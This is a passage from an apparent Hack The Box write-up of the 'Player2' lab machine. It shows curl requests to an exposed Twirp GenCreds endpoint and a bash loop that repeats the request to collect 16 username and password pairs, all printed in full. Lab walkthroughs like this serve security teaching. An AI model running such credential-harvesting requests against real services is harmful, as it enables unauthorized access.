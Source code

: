 That’s a different error. Seems I found the API endpoint. I tried `number` in place of `count` and it worked:

```

root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' | jq .
{
  "name": "snowscan",
  "pass": "Lp-+Q8umLW5*7qkc"
}

```

There’s a reference to snowscan, who is a fixture in the top five in the [HTB Hall of Fame](https://www.hackthebox.eu/home/hof). More importantly, it looks like creds.

I noticed that if I ran the same request again, I got a different username and password:

```

root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' | jq .
{
  "name": "jkr",
  "pass": "ze+EKe-SGF^5uZQX"
}

```

jkr is another brilliant HTB player, and a new password. I ran it 500 times to see how many different combinations came back. Each time in this loop, it will use `curl` to get the JSON creds structure, and then add a newline. The results will then be passed to `sort -u`, which will get only the unique values. Then I’ll use `tee` to save the unique creds to `creds.json`, and then `wc -l` to see how many there are.

```

root@kali# for i in {1..500}; do 
>   curl -s -X POST -H "Content-Type:application/json" -d '{"number": 2}' http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds;
>   echo; 
> done | sort -u | tee creds.json | wc -l
16

```

The number posted doesn’t seem to matter. This always returns 16 different sets of credentials.

Looking at the creds, its each combination of four users (I’m honored to be one of them) and four passwords:

```

root@kali# cat creds.json 
{"name":"0xdf","pass":"Lp-+Q8umLW5*7qkc"}
{"name":"0xdf","pass":"tR@dQnwnZEk95*6#"}
{"name":"0xdf","pass":"XHq7_WJTA?QD_?E2"}
{"name":"0xdf","pass":"ze+EKe-SGF^5uZQX"}
{"name":"jkr","pass":"Lp-+Q8umLW5*7qkc"}
{"name":"jkr","pass":"tR@dQnwnZEk95*6#"}
{"name":"jkr","pass":"XHq7_WJTA?QD_?E2"}
{"name":"jkr","pass":"ze+EKe-SGF^5uZQX"}
{"name":"mprox","pass":"Lp-+Q8umLW5*7qkc"}
{"name":"mprox","pass":"tR@dQnwnZEk95*6#"}
{"name":"mprox","pass":"XHq7_WJTA?QD_?E2"}
{"name":"mprox","pass":"ze+EKe-SGF^5uZQX"}
{"name":"snowscan","pass":"Lp-+Q8umLW5*7qkc"}
{"name":"snowscan","pass":"tR@dQnwnZEk95*6#"}
```